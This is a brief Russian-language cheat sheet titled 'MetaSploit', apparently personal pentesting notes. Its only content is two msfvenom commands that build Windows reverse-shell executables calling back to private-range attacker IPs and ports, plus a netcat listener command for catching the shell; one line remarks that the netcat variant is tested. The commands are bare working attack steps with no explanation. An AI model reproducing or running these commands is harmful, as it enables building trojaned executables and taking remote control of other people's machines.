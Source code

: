 # MetaSploit

Создаем реверс шелл для виндовс
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.50.200 lport=5555 -f exe -o sh1.exe


проверено для netcat
msfvenom -p windows/shell_reverse_tcp LHOST=10.18.35.17 LPORT=7777 -f exe -o Zero.exe
rlwrap nc -lvnp 7777

